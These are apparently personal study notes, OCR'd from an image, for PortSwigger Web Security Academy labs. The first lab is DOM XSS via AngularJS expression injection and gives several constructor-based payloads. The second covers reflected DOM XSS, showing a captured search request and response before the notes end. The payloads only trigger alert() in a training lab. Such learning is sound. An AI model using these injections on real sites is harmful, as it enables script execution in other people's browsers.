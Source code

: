 #### Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
- As written in a lab description - here we have Angular (which scans the contents of HTML nodes containing the **ng-app** attribute)
- Let's check what will be reflected on a screen if we try to search { { 1+1 } } -> instead of { { 1+1 } } we have `2`
**(NB! double curly brackets need to be written without a space between them here I add space just to escape content blocking)**
- So what we actually can try here in a searchbar:

```html
{ { ('alert("Hello friend")')() } }
```

- Alternatively:

```html
{ { $eval.constructor('alert("Hello friend")')() } }
{ { $on.constructor('alert("Hello friend")')() } }
```

#### Lab: Reflected DOM XSS
- Let's investigate how search functionality works here - using Burp (Target-> Site map-> search-result) or **Network** in the **inspect** dev tools checkout Request/Response () and pay attention what we get from search:

PING:
```html
GET /search-results?search=koffin HTTP/2
Host: YOUR_LAB_ID_HERE.web-security-academy.net
Cookie: session=Klc0vOVkwhSIMGBA4dzuak023BHxieKq
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://YOUR_LAB_ID_HERE.web-security-academy.net/?search=koffin
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
```

PONG:
```html
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 347

{"results":[{"id":2,"title":"Say It With Flowers - Or Maybe Not","image":"blog/posts/49.jpg","summary":"Ahhhh, St. Valentine's Day. What better way to let that special someone know you love them than giving them a beautiful bouquet of flowers. It's OK for those who know you feel that way, but be careful of going over..."}],
"searchTerm":"koffin"}
```
